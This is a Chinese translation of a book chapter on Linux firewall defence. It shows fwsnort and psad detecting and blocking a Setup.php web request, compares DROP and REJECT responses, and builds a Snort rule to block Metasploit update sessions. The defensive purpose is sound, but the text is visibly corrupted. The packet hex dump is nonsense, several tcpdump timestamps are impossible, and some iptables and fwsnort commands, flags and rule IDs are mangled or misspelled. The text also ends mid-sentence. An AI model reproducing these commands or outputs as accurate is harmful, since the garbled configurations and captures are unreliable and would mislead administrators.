如果你查看 `/etc/fwsnort/fwsnort/fwsnort.sh` 脚本，你会看到一条 `iptables` 命令，它使用字符串匹配扩展和自定义的 `FWSNORT_FORWARD_ESTAB` 链来检测已建立 TCP 连接中的 `/Setup.php` 字符串。该命令如下所示，它承担了检测攻击的主要工作：

```bash
$ IPTABLES -A FWSNORT_FORWARD_ESTAB -p tcp --dport 80 --m string --string "/Setup.php" --algo bm --comment "sid:2281; msg: WEB-PHP Setup.php access; classtype: web-application-activity; reference: bugtraq,9057; rev: 2; FWS:1;0" -j LOG --log-ip-options --log-tcp-options --log-prefix "[1] SID2281 ESTAB"
```

**粗体文本**是 `iptables` 日志前缀。当 `iptables` 在 Web 会话中检测到 `/Setup.php` 字符串时，触发的 `iptables` 日志消息中会包含此字符串。例如，如果我们从 `ext_scanner` 系统对 `webserver` 执行相同的 `lynx http://71.157.X.X/Setup.php` 命令，我们将获得这条 `iptables` 日志消息：

```
Jul 19 13:27:41.58 iptablesfw kernel: [1] SID2281 ESTAB IN=eth0 OUT=eth1 SRC=144.202.X.X DST=144.202.X.X LEN=76 SGS=0 SEQ=0 ACK PSH TTL=63 ID=8317 DP=PROTO=TCP SPT=47299 DPT=80 WINDOW=92 RES=00 ACK PSH URG=0 OPT (0101080C0ACBA0D800BFE8EE4A)
```

#### 使用 psad 进行告警

攻击已被 `fwsnort` 检测到，但它仅生成了一条来自 `iptables` 的日志消息；它没有执行任何 `whois` 查询或发送电子邮件告警，因为这些超出了其功能范围。

然而，由于 `fwsnort` 生成了 `iptables` 日志消息，`psad` 可以分析该消息并将它的告警和报告机制应用于该事件。但首先，`psad` 需要正确处理 `fwsnort` 的日志消息。毕竟，这些消息是通过检查应用程序层数据生成的，但数据本身并未包含在日志消息中。

解释这些日志消息的关键是 `/etc/psad/psad.conf` 文件中的 `SNORT_SID_STR` 变量。该变量描述了 `psad` 必须在日志前缀中看到的片段，以便推断出该日志消息是由 `fwsnort` 生成的。默认情况下，`SNORT_SID_STR` 设置如下：

```
SNORT_SID_STR     SID;
```

任何包含具有 `SID` 子字符串日志前缀的 `iptables` 日志消息都被视为由 `fwsnort` 生成的消息，且这些消息几乎总是针对应用程序层攻击的。

现在我们确保 `psad` 正在运行（执行 `/etc/init.d/psad start`），然后再次模拟攻击。这一次，`psad` 捕获了 `iptables` 日志消息，对其进行解析，并生成如下所示的电子邮件告警。（为了简洁，我们删除了通常伴随 `psad` 告警的 `whois` 信息。）

危险等级：[3] (总分为 5)

扫描的 TCP 端口：[80: 1 个数据包]

❶ TCP 标志：[ACK PSH: 1 个数据包]


```
iptables chain: FWNSNORT_FORWARD_ESTAB (prefix "❶[1] SID2281 ESTAB"), 1 packets
fwsnort rule: 1
Sourcer: 144.202.X.X
DNS: (no reverse dns info available)
OS guess: Linux:2.6:17:Linux 2.6.17 and newer (?)
Destination: 192.168.10.3
DNS: web server
Overall scan start: Thu Jul 19 23:48:18 2007
Total email alerts: 2
Complete TCP range: [80]
Syslog hostname: iptablesfw
Global stats: chain: interface: TCP: UDP: ICMP:
FORWARD eth0 2 0 0
```

### ❷ TCP 扫描签名

```
"WEB-PHP Setup.php access"
dst port: 80
flags: ACK PSH
content: "/setup.php"
sid: 2281
chain: FWNSNORT_FORWARD_ESTAB
packets: 1
classtype: web-application-activity
reference: (bugtraq) http://www.securityfocus.com/bid/9057
```

上面显示的`psad`电子邮件警报看起来相当正常，包含了所有标准信息，如时间戳、数据包计数、TCP 标志和端口等等。然而，该警报中的几项信息值得特别关注。

## TCP 标志

`psad`会报告生成 iptables 日志消息的 TCP 数据包中出现的所有 TCP 标志。在 WEB-PHP Setup.php 访问攻击的案例中，触发`fwsnort`策略产生日志消息的特定 TCP 数据包是一个已建立的 TCP 会话的一部分，因此在❶处报告 ACK 和 PSH 标志被设置。前缀`[1] SID2281 ESTAB`❶也清楚地表明，该数据包是由一个利用状态匹配来跟踪已建立 TCP 连接的`fwsnort`链记录的，因此攻击者不能仅通过伪造一个包含`/setup.php`字符串且来自任意源地址的 TCP ACK 数据包来强制`fwsnort`生成日志消息。

## 报告应用层内容

对于 WEB-PHP Setup.php 访问攻击，`psad`警报中最有趣的部分始于上面的❷。这一部分表明`psad`注意到了字符串`[1] SID2281 ESTAB`并将其映射到了相应的 Snort 规则。由于`psad`在内存中维护了所有 Snort 规则类类型、消息字段和内容字符串的概念，因此它推断出违规数据包对应于`web-application-activity`类中的 WEB-PHP Setup.php 访问规则，且必须包含字符串`/Setup.php`。

## 注意

iptables 本身没有通过`log`目标报告数据包实际内容的机制，且如第 10 章所述，由于前缀字符串长度限制在 29 个字符以内，通常无法简单地将内容字符串放入日志前缀中。此外，在 syslog 消息中包含二进制数据包数据也不是一个好主意。

## Snort 规则 ID、消息和参考信息

最后，在❷处，`psad`报告了 Snort 规则 ID（本例中为 2281）、规则所属的类类型（`web-application-activity`）以及消息字段（`WEB-PHP Setup.php access`）。其中还包含一个 Bugtraq 链接，对于试图调查攻击性质并确定成功利用可能对网络安全态势意味着什么的管理员来说，这能提供有价值的信息。如`psad`电子邮件警报所示，这些参考信息包含在原始 Snort 规则中并由`psad`缓存以用于报告。

> [1] 这假设运行 iptables 的系统没有从交换机的镜像端口（span port）或通过类似机制接收数据包数据。这通常是一个合理的假设，因为 iptables 旨在对发往真实系统的实时数据包执行安全策略；对被动收集的数据包执行策略几乎没有用处。

> [2] 请参阅 http://www.securityfocus.com/bid/9057/ 讨论以获取有关此漏洞的更多信息。

## 重温主动响应

在第 8 章和第 10 章中，我们探讨了移除限制`psad`和`fwsnort`仅执行被动检测操作的枷锁，并将其配置为主动响应攻击的影响。在本节中，我们将继续讨论主动响应，但现在我们将从同时使用`psad`和`fwsnort`响应能力的角度来探讨这一主题。

### psad vs. fwsnort

虽然`psad`在检测到攻击时可以针对攻击者实例化基于超时时间的持久性 iptables 拦截规则，但它本身无法中断连接，也无法阻止匹配应用层签名的初始数据包被转发。另一方面，在`fwsnort`的情况下，可以使用 DROP 和/或 REJECT 目标来阻断单个恶意数据包和会话，但`fwsnort`无法构建一条新的 iptables 规则来在较长时间内拦截攻击者。

鉴于每种工具的优势，如果能将这两种响应方式结合起来将非常有益。毕竟，`fwsnort`可能擅长检测并阻止特定 TCP 会话中的特定攻击，但如果没有`psad`来管理持久拦截规则，攻击者可以随意尝试对同一目标进行另一种利用。检测到第一次利用尝试可能被认为是运气好；随后的利用尝试不一定能被检测到，因此持久拦截规则至关重要。如果攻击者还拥有另一个与首次攻击无关且没有签名的漏洞利用工具，情况尤其如此。此外，如果攻击者使用 Tor 匿名网络（http://tor.eff.org）对 TCP 服务发起攻击，那么拦截单个 IP 地址是徒劳的，因为每次攻击都将来自不同的出口路由器（由 Tor 为每个 TCP 会话随机选择）。

## 注意

虽然在第 9 章中提到过，但我在此再次强调：一个狡猾的攻击者在得知有主动响应机制后，可能会尝试破坏该机制，从而将其反过来利用于攻击目标网络。此外，如果攻击者控制了多个用于发起攻击的主机（这在地下圈子中较为常见，一个人可以控制许多主机组成僵尸网络），攻击者只需从一个尚未用于攻击目标的主机发起新攻击即可。在试图防御网络的人和攻击网络的人之间永远存在一场军备竞赛，在这方面，进攻方应被认为拥有相当强大的武装。

### 将 psad 响应限制在 fwsnort 检测到的攻击中

根据第 194 页“将 fwsnort 检测与 psad 操作结合”中包含的信息，我们已经知道`psad`可以为`fwsnort`生成的日志消息发送警报。因此，`psad`只需在`/etc/psad/psad.conf`文件中将`ENABLE_AUTO_IDS`设置为`Y`，即可针对`fwsnort`日志消息设置 iptables 拦截规则。

如果`fwsnort`检测到的攻击使得`psad`分配给攻击者的危险等级高于`AUTO_IDS_DANGER_LEVEL`变量设置的值，那么`psad`将针对攻击者的 IP 地址实例化全盘拦截（carte blanche drop）规则。然而，`psad`的危险等级不仅是因为`fwsnort`记录了攻击而分配；检测到的端口扫描和后门探测也会被分配危险等级。

正如第 8 章所讨论的，对扫描和探测（这些很容易被伪造）启用`psad`响应是有风险的行为。理想情况下，我们希望`psad`仅对那些必须涉及已建立 TCP 连接上的应用层数据的攻击做出响应，而不对其他类型的攻击采取任何行动。

`AUTO_BLOCK_REGEX`变量包含一个正则表达式，它强制`psad`仅在相应的 iptables 日志消息匹配该表达式时才对 IP 地址执行拦截操作。默认情况下，分配给`AUTO_BLOCK_REGEX`变量的值是字符串`ESTAB`，这匹配在专为匹配已建立 TCP 连接数据包而设计的自定义链中触发的`fwsnort`日志消息。要启用此功能，必须在 psad 配置文件中将`ENABLE_AUTO_BLOCK_REGEX`变量也设置为`Y`。

## 注意

如果您打算允许`psad`通过防火墙隔离攻击者，您应该运行`fwsnort`并启用`AUTO_BLOCK_REGEX`功能。响应端口扫描或其他极易伪造的流量太容易被滥用了。

### 结合 fwsnort 和 psad 的响应

我们现在重新回顾 WEB-PHP Setup.php 访问攻击示例，但这次我们同时使用`psad`和`fwsnort`的主动响应机制。首先，我们配置`fwsnort`在恶意数据包到达 Web 服务器之前将其直接丢弃：

```
[iptablesfw]# fwsnort --snortid -set 2281 --ipt-drop
[+] Parsing Snort rules files...
[+] Found sid: 2281 in web-php.rules
    Successful translation
[+] Logfile: /var/log/fwsnort.log
[+] Iptables script: /etc/fwsnort/fwsnort.sh

[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding web-php rules
    Rules added: 4
```

如果你现在查看`/etc/fwsnort/fwsnort.sh`脚本，你会看到两条如下规则：

```
$IPTABLES -A FWSNORT_FORWARD ESTAB -p tcp --dport 80 --m string --string "/Setup.php" --algo bm -m comment --comment "msg: WEB-PHP Setup.php access; classtype: web-application-activity; reference: bugtraq,9057) rev: 2; FWS1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[1] DRP BID2261 ESTAB"
$IPTABLES -A FWSNORT_FORWARD ESTAB -p tcp --dport 80 -m string --string "/Setup.php" --algo bm -j DROP
```

第一条规则与第 194 页 [WEB-PHP Setup.php access Attack](#) 中给出的原始示例完全相同，不同之处在于日志前缀包含字符串 DRP，这明确表明接下来的规则将丢弃（drop）该数据包。在`fwsnort`运行起来后，我们通过在`psad.conf`文件中设置以下变量，配置`psad`将攻击者封锁一小时：

```
ENABLE_AUTO_IDS Y;
AUTO_IDS_DANGER_LEVEL 4;
AUTO_BLOCK_TIMEOUT 3600;
ENABLE_AUTO_IDS_REGEX Y;
AUTO_BLOCK_REGEX ESTAB;
```

现在我们使用`/etc/init.d/psad restart`重启`psad`，准备再次模拟对 Web 服务器的攻击。下面的第一个`lynx`命令（并非恶意）显示我们与 Web 服务器之间具有不间断的连接，但第二个命令无法触发`404 Not Found`错误，因为恶意数据包从未到达 Web 服务器——它被`fwsnort`丢弃了：

```
[ext_scanner]# lynx http://157.X.X.X
Internal webserver: happy browsing!
[ext_scanner]# lynx http://157.X.X.X/Setup.php
HTTP request sent; waiting for response
```

对 iptables 系统外部接口进行的数据包追踪（packet trace）可以提供关于线缆上实际发生情况的更多细节。攻击者的 TCP 栈会重新传输包含字符串`/Setup.php`的数据包，因为 Web 服务器的 TCP 栈从未收到它（因此从未向攻击者的栈发送该数据包的确认应答）。每个重传的数据包都包含字符串`/Setup.php`，因此在到达 Web 服务器之前就被 iptables 丢弃。在下面的追踪结果中，数据包重传以粗体显示。（虽然 TCP 将在两分钟内持续尝试交付数据包，但这里仅显示三个数据包。）

```
[iptablesfs]# tcpdump -i eth0 -nn port 80
13:32:24.839585 IP 144.202.X.X.59651 > 157.X.X.X.80: S 653660994: 653660994(0)
win 5840 <mss 1460,sack=0,timestamp 323999666 0,nop,wscale 2>
13:32:24.841747 IP 157.X.X.X.80 > 144.202.X.X.59651: S 612132055: 612132055(0)
ack 653660995 win 5792 <mss 1460,sack=0,timestamp 323999666 323999666,nop,
wscale 2
13:32:24.868471 IP 144.202.X.59651 > 71.157.X.X.80: . ack 1 win
1460 <nop,nop,timestamp 3239999673 2271556939>
13:32:24.869285 IP 144.202.X.59651 > 71.157.X.X.80: P 1:229(228) ack 1
win 1460 <nop,nop,timestamp 3239999674 2271556939>
13:32:25.097232 IP 144.202.X.59651 > 71.157.X.X.80: P 1:
229(228) ack 1 win 1460 <nop,nop,timestamp 3239999731 2271556939>
13:32:25.552535 IP 144.202.X.59651 > 71.157.X.X.80: P 1:229
(228) ack 1 win 1460 <nop,nop,timestamp 3239999845 2271556939>
13:32:26.446527 IP 144.202.X.59651 > 71.157.X.X.80: P 1:229
(228) ack 1 win 1460 <nop,nop,timestamp 3240000073 2271556939>
```

这涵盖了`fwsnort`中的 DROP 响应，但`psad`同时也采取了行动，实例化了一组针对攻击者的封锁规则。如果我们现在再次尝试从攻击系统中获取 Web 服务器的`index.html`页面，迎接我们的是死一般的寂静：

```
[ext_scanner]# lynx http://71.157.X.X
HTTP request sent; waiting for response
```

事实上，`psad`已经将所有与攻击者 IP 地址的通信切断了一个整小时。DROP 规则被添加到三个`psad`封锁链中，数据包从内置的 INPUT、OUTPUT 和转发（forwarding）过滤链跳转到这些链，从而对攻击者的 IP 地址提供有效的 DROP 姿态：

```
[iptablesfw]# psad --fw-list
[*] Listing chains from IPT_AUTO_CHAIN keywords...
```

### Chain PSAD_BLOCK_INPUT (1 references)

| pkts | bytes | target | prot | opt | in | out | source | destination |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 0 | DROP | all | - | * | * | 144.202.X.X | 0.0.0.0/0 |

### Chain PSAD_BLOCK_OUTPUT (1 references)

| pkts | bytes | target | prot | opt | in | out | source | destination |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 0 | DROP | all | - | * | * | 0.0.0.0/0 | 144.202.X.X |

### Chain PSAD_BLOCK_FORWARD (1 references)

| pkts | bytes | target | prot | opt | in | out | source | destination |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 0 | DROP | all | - | * | * | 0.0.0.0/0 | 144.202.X.X |
| 0 | 0 | DROP | all | - | * | * | 144.202.X.X | 0.0.0.0/0 |

## DROP 与 REJECT 目标之比较

在上述章节的数据包追踪中，包含字符串`/setup.php`的数据包重传，是 TCP 在 DROP 目标拒绝将数据包转发到目标 TCP 栈后，为了确保数据交付而内置的一种尝试。TCP 会话在超时后被迫关闭，而且关闭得相当不优雅。然而，`fwsnort`可以使用 iptables 的 REJECT 目标而不是 DROP 目标，这样攻击者的 TCP 栈在无法通过 iptables 防火墙转发恶意数据包的同时，还会收到一个 RST 包：

```
[iptablesfw]# --fwsnort -serd 2281 --ipt-reset
```


```
[+] Parsing Snort rules file...
[+] Found sid: 2281 in web-php.rules
Successful translation
[+] logfile: /var/log/fwsnort.log
[+] Iptables script: /etc/fwsnort/fwsnort.sh
[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding web-php rules
Rule added: 4
```

现在，当我们再次对 Web 服务器发起攻击时（在通过`psad --Flush`清除之前攻击的 psad 封锁规则之后），我们的 TCP 栈会收到一个 RST 数据包，迫使会话关闭：

```
[ext_scanner]# lynx http://71.157.X.X/Setup.php
Alert! Unexpected network read error. Connection aborted.
Can't access `http://71.157.X.X/Setup.php'
Alert! Unable to access document.
```

在 iptables 防火墙外部接口捕获的数据包追踪清楚地显示了发回给攻击者的 RST 数据包（下方以粗体显示）：

```
[iptablesfw]# tcpdump -i eth0 -l -nn port 80
219:13.03.1503507 IP 144.202.X.X:52092 > 71.157.X.X:80 S 1449291682:
1449291682(0:0)
win 5840 <mss 1460,sack=0,timestamp 3247303167 0,nop,wscale 2>
219:13.03.150377 IP 71.157.X.X:80 > 144.202.X.X:52092: S 1384965123:
1384965123(0:0)
ack 1449291683 win 16782 <mss 1460,sack=0,timestamp 2300769786 3247303167,nop,
wscale 2>
219:13.03.73190 IP 144.202.X.X:52092 > 71.157.X.X:80: ack 1 win 1460
<nop,nop,timestamp 3247303172 2300769786>
219:13.03.78382 IP 144.202.X.X:52092 > 71.157.X.X:80: P 1:229(228) ack
1 win 1460 <nop,nop,timestamp 3247303174 2300769786>
219:13.03.78442 IP 71.157.X.X:80 > 144.202.X.X:52092: R
1384965124:1384965124(0:0)
win 0
```

### 拦截传入的 RST

在上面的示例中，TCP 连接的客户端收到一个 RST，随后被本地 TCP 栈执行。但如果攻击者运行的操作系统包含一个防火墙（例如 iptables），能够在该 RST 数据包被本地 TCP 栈看到之前将其过滤掉，会发生什么？会话是否会像什么都没发生一样继续进行？

幸运的是，答案是否定的。虽然会话保持开启状态（因为 REJECT 目标仅向触发 REJECT 匹配的源 IP 地址发送 RST 数据包），但违规数据包在同一时间也被 iptables 丢弃了。因此，这种情况变得与第 199 页“结合 fwsnort 和 psad 响应”中的场景类似，即使用 DROP 目标而不是 REJECT 目标。由于在这种情况下攻击者运行的操作系统是 Linux，我们可以研究在使用 lynx 客户端攻击时，过滤该攻击案例中的 RST 数据包会发生什么。

首先，我们在 ext_scanner 系统上添加一条 iptables 规则，过滤所有来自目标的传入 RST 数据包，然后重新运行攻击：

```
[ext_scanner]# iptables -I INPUT 1 -p tcp --tcp-flags RST RST -s 71.157.X.X -j DROP
[ext_scanner]# lynx http://71.157.X.X
HTTP request sent; waiting for response
```

这导致的数据包追踪显示，攻击者的 TCP 栈重新传输了包含 /Setup.php 字符串的数据包，这反过来表明该栈从未收到由保护 Web 服务器的远程 iptables 防火墙生成的 RST 数据包。由于每个重传的数据包都包含相同的恶意字符串，每个这样的数据包都会再次匹配 fwsnort 设置的 REJECT 规则集，从而导致每个数据包都引发一个新的来自 iptables 的 RST。而且，由于 RST 过滤规则在攻击者系统中仍然激活，每个 RST 再次从未被攻击者的 TCP 栈看到。RST 数据包在下方以粗体显示。（请注意，没有 RST 数据包包含 ACK 位。）

```
[iptablesfw]# tcpdump -i eth0 -n port 80
22:14:51.077639 IP 144.202.X.X:37788 > 71.157.X.X:80: S 3703393615:5180739393615(0) win 5840 <mss 1460,sack=SACK,wscale,timestamp 3247837780
0,nop,wscale 2
22:14:51.080977 IP 71.157.X.X:80 > 144.202.X.X:37788: S 3646903830:3646903830(0) ack 3703393615 win 5792 <mss 1460,sack=SACK,wscale,timestamp 2302908153 3247837780,nop,wscale 2
22:14:51.094852 IP 144.202.X.X:37788 > 71.157.X.X:80: . ack 1 win 1460
22:14:51.095739 IP 144.202.X.X:37788 > 71.157.X.X:80: 2302908153
22:14:51.098181 IP 144.202.X.X:37788 > 71.157.X.X:80: P 1:229(228) ack 1 win
1460
1460 nop,nop,timestamp 3247837785 2302908153
22:14:51.098233 IP 71.157.X.X:80 > 144.202.X.X:37788: R 3646903831:3646903831(0) win 0
22:14:51.319774 IP 144.202.X.X:37788 > 71.157.X.X:80: P 1:229(228) ack 1 win
1460 nop,nop,timestamp 3247837839 2302908153
22:14:51.340451 IP 71.157.X.X:80 > 144.202.X.X:37788: R 3646903831:3646903831(0) win 0
22:14:51.748920 IP 144.202.X.X:37788 > 71.157.X.X:80: P 1:229(228) ack 1 win
1460 nop,nop,timestamp 3247837947 2302908153
22:14:51.748969 IP 71.157.X.X:80 > 144.202.X.X:37788: R 3646903831:3646903831(0) win 0
22:14:52.610322 IP 144.202.X.X:37788 > 71.157.X.X:80: P 1:229(228) ack 1 win
1460 nop,nop,timestamp 3247838182 2302908153
22:14:52.610396 IP 71.157.X.X:80 > 144.202.X.X:37788: R 3646903831:3646903831(0) win 0
```

## NF_DROP 宏

查看源代码可以确认 iptables 的 REJECT 目标会丢弃匹配的数据包。具体来说，如果你查看内核源码中的`linux/net/ipv4/netfilter/ipt_REJECT.c`文件，你会看到在`reject()`函数的三个位置都有如下的 return 语句（并且没有其他 return 语句）：

```c
return NF_DROP;
```

因此，宏`NF_DROP`是`reject()`函数唯一可能的返回值，它指示 iptables 直接丢弃任何匹配的数据包。匹配的数据包将被阻止继续在协议栈中上传或被转发到其预定目的地。因此，在我们的攻击示例中，即使攻击者过滤了传回的 RST 包，Web 服务器也永远不会看到进入的`/setup.php`攻击。

> [60]³ 回想第三章的内容，来自 iptables 的这个 RST 数据包没有设置 ACK 位，因为触发规则匹配的恶意数据包本身属于一个已建立的 TCP 连接，因此其 ACK 位已设置。根据 RFC 793 的规定，响应此类数据包而生成的任何 RST 数据包都不会设置 ACK 位。只有在之前接收到的数据包没有设置 ACK 位时，才会发送 RST/ACK。

## 阻断 Metasploit 更新

Metasploit 项目 (http://www.metasploit.com) 是当今最重要的开源安全项目之一。它的持续开发对计算机安全具有深远影响，并且在 Fyodor 的 Top 100 网络安全工具列表 (http://www.sectools.org) 中，一直被安全研究人员评为顶级安全工具之一。Metasploit 是一个可插拔的框架，用于自动化软件漏洞攻击的开发和使用，围绕 Metasploit 建立的社区为漏洞研究和自动化现状做出了巨大贡献。（与许多安全技术一样，Metasploit 的漏洞利用能力可能会被企图入侵系统的人滥用，但 Metasploit 对安全格局的净效应是积极的——更多的软件供应商会更加关注安全性。）

### Metasploit 更新功能

如果有人将您的企业网络作为发起 Metasploit 攻击的跳板，除非这是经过正式批准的活动（如专业渗透测试），否则他们几乎肯定违反了您的本地安全策略。检测此类活动的一个好方法是寻找与 Metasploit 更新过程相关的流量。

Metasploit 开发人员定期发布针对新漏洞的 exploit，Metasploit 为其 exploit 数据库提供了在线功能，以便用户无需等待下一个 Metasploit 版本发布即可利用这些新 exploit。从安全角度来看，当用户偶尔浏览 http://www.metasploit.com 网站时，这并不那么有趣；但当用户实际上在使用该软件时，情况就有趣得多，而 Metasploit 更新过程正是此类活动的良好指标。本节的目标是展示在开发出 Snort 规则后，fwsnort 和 psad 如何协同工作以停止 Metasploit 更新。

默认情况下，所有 Metasploit 更新都通过带有自签名 SSL 证书的 SSL 协议进行。图 11-1 显示了一个 Metasploit 客户端通过运行 fwsnort 和 psad 的 iptables 防火墙发起更新的过程。



**图 11-1. 通过 fwsnort 和 psad 的 Metasploit 更新**

如图所示，客户端使用了 Metasploit 更新功能，但在 Metasploit SSL 服务器返回更新内容之前，必须实例化一个有效的 SSL 会话。因此，在 SSL 握手期间，Metasploit 服务器将其 SSL 证书返回给客户端。

Metasploit 更新过程因 Metasploit 框架版本的不同而有所差异。从 3.0 版本开始，Metasploit 使用 Ruby 编写，并使用 Subversion 源码控制系统[62]不仅更新 exploit 数据库，还更新源代码文件。由于 Subversion 可以通过 SSL 与远程仓库通信，Metasploit 无需在代码中构建此功能。相比之下，Metasploit 2.x 系列通过从命令行执行 Perl 脚本`msupdate`来执行更新。

### Metasploit 3.0 更新

要下载并更新 Metasploit 3.0 框架，用户可以执行以下命令。（为了简洁，删除了一些输出，并且我们假设已安装 Subversion 客户端命令`svn`。）因为我们要观察 Metasploit 更新过程如何与更新服务器通信，我们在 iptablesfw 系统上使用`tcpdump`进行数据包追踪，然后切换到 int_scanner 系统执行更新。（`tcpdump`的`-s 0`命令行参数可确保记录每个数据包的完整长度。）

```
[iptablesfw]# tcpdump -i eth1 -s 0 -l -nn port 443 -w metasploit_update.pcap
[int_scanner]$ wget http://framework-mirrors.metasploit.com/msf/downloader/framework-3.0.tar.gz
[int_scanner]$ tar xfz framework-3.0.tar.gz
[int_scanner]$ cd framework-3.0
[int_scanner]$ svn update
Error validating server certificate for 'https://metasploit.com:443':
```

- 证书并非由受信任的机构颁发。请使用指纹手动验证证书！

  证书信息：

    主机名：metasploit.com

    有效期：从 2007 年 7 月 31 日星期二 15:39:57 GMT 到 2008 年 7 月 30 日星期三 15:39:57 GMT

    颁发者：Development, Metasploit Project, San Antonio, Texas, US

    指纹：05iaafdrb0bbiarc0d5bb80c069b68d9:5e35:cf78:83:3e:fcf:fe

(R)eject, (c)ontinue (i)mpermanently or accept (p)ermanently? t

Updated to revision 4592

在上述 ① 处，您可以看到 Metasploit 使用了自签名 SSL 证书；在 ② 处，您看到了该证书的颁发者和指纹信息，我们通过按下 t 暂时接受它。此时，我们的本地 exploit 数据库和所有相关源代码文件已与 Metasploit Subversion 仓库中的最新版本同步，并且我们拥有了包含整个更新过程数据包捕获的`metasploit_update.pcap`文件。（您可以从 http://www.cipherdyne.org/linuxfirewalls 下载此文件）。

### Metasploit 2.6 更新

以下是使用`msupdate`脚本更新 Metasploit 2.6 框架所使用的命令。由于此更新过程同样通过 SSL 进行，我们不需要再次收集数据包追踪——我们只需要观察 SSL 证书如何在线传输。第 205 页“Metasploit 3.0 更新”部分中截取的数据包追踪就足够了。

```
[int_scanner]$ wget http://www.metasploit.com/tools/framework-2.6.tar.gz
[int_scanner]$ tar xfz framework-2.6.tar.gz
[int_scanner]$ cd framework-2.6
[int_scanner]$ ./msfupdate -u
```

```
+--- [--- msfupdate v2.6 [revision 1.45]
[*] Calculating local file checksums. Please wait...
    Updating . /data/meterpreter/ext_server_sam_dll
    Updating . /data/msfpayload/template.exe
    Updating . /exploits/badblue_ext_overflow.pm
    Updating . /exploits/bomberlone_overflow_win32.pm
Continue users (yes or no) ? y
[*] Starting online update of 4 files...
[0001/0034] 0 x001000 bytes updating /data/meterpreter/ext_server_sam_dll
[0002/0034] 0 x000e20 bytes updating /data/msfpayload/template.exe
[0003/0034] 0 x000c74 bytes updating /exploits/badblue_ext_overflow.pm
[0004/0034] 0 x000c72 bytes updating /exploits/bomberlone_overflow_win32.pm
[*] Regenerating local file database
```

### 特征码开发

在上一节中，我们收集了 Metasploit 更新 SSL 会话的数据包追踪，这使我们能够看到 SSL 证书的样子。编写一条能够准确检测 Metasploit 更新的 Snort 规则的第一步，是使用您喜欢的嗅探器或协议解码器分析此数据包追踪。我们的目标是编写一条 Snort 规则，以便 fwsnort 能够将其转换为等效的 iptables 规则。


由于 Metasploit 更新过程使用了带有自签名证书的 SSL，一种欺骗 Snort 规则的策略是让 Snort 寻找在客户端和服务器之间传输的该证书。由于证书名称在 SSL 会话中以明文形式广播，可以使用 Wireshark [4] 或 `tcpdump` 等工具轻松地从数据包追踪中提取此名称。我们在下面使用 `tcpdump`（部分输出已省略）：

```
[iptablesfw]# tcpdump -l -te metasploit_update.pcap -r -nn -X
22:52:30.176782 IP 216.75.182.201.3243 > 192.168.1.200.49356: I 1:1449(1448)
ack 127 win 46 num:tcp,nop,timestamps 532162035 630235133
0x0000: 4500 0056 dfc8 4200 2f06 eceb db48 0f67 E..OB.. /...K..
0x0010: c0a3 0800 013c 1000 02f0 a0ce ebe2 43af 20ze "....K.C..
0x0020: 8010 0050 0000 0000 0000 0000 0000 1f4 98a7 ...................
0x0030: 25f0 cf9c f609 1603 0120 0355 0400 0060 4103 045 
0x0040: 2c25 c8be 92f1 0890 ef30 cdb 0530 e9b 0073 c41d B....
0x0050: 41be d825 5a70 06f0 4a0e 59b F300 0300 0000 A. [E] (L.V....
0x0060: 0600 1dfa 8430 7f6d 0303 0100 0100 0000 0344 64ae np.cox....
0x0070: be4f 468c 3efb 3cf7 8a9f md35 26a4 e091 cdb0 .ON.7.2....
0x0080: 0039 0016 0300 81a8 0700 0674 00b0 0700 0600 .9....t..g.m..
0x0090: 0684 3082 0686 3082 0418 3082 0202 0201 0301 0251 -0.U..H..U..
0x00a0: 0101 300d 0609 0280 48b6 0700 0101 3005 040 
0x00b0: 0030 81a8 0106 3009 0303 0069 0503 5064 0131 0255 .0.U..H..U..U
0x00c0: 0504 0300 5311 0300 0309 0063 0503 5064 0131 0255 7801 01.0..U...U
0x00d0: 0301 0200 0301 0355 0407 1300 5361 6200 5361 01.0..U..Sana.
0x00e0: 016e 7461 6e 65f9 6251 0f30 1306 0355 040n Antoni.0..U..
0x00f0: 0306 5468 655f b470 0300 0401 0201 0102 0306 6f74 .the.Metasploit
0x0100: 2050 726f 665f 6357 3104 3023 0603 5504 3703 .Project1.0..U..
0x0110: 0b13 0B44 0b54 6576 6567 6F70 665 6274 3116 .Development1..
0x0120: 3014 0603 5504 0313 0dd4 6574 6173 2176 300 0.U....Metaspl
0x0130: 6468 7400 8341 3100 0303 0201 0104 3202 2486 c4b6 .com.C1.0...T
0x0140: f704 0109 0116 1563 6163 6372 5440 4405 665 .cacert@me
0x0150: 7461 6770 6370 6ef8 676d 160d 3100 170d caspert@me.com...0
```

请注意（上文中以粗体标出）那个独特的字符串，它将 Metasploit Web 服务器标示为与 SSL 证书关联的电子邮件地址。我们将使用证书中的电子邮件地址部分作为自定义 Snort 规则的内容字段，我们将此规则 ID 设为 `900001`，并将其放在名为 `metasploit.rules` 的文件中：

```
[iptablesfw]# cat metasploit.rules
alert tcp $EXTERNAL_NET 443 -> $HOME_NET any (msg:"Metasploit exploit DB update";
flow:established; content:"cacert@metasploit.com"; classtype:misc-activity;
sid:900001; rev:1;)
```

## 使用 fwsnort 和 psad 瓦解 Metasploit 更新

凭借我们新的 Snort 规则，我们可以使用 `fwsnort` 和 `psad` 来识别并停止由 vpn 套件或 `msupdate` 命令发起的 SSL 会话。

## 注意

首先被看到。

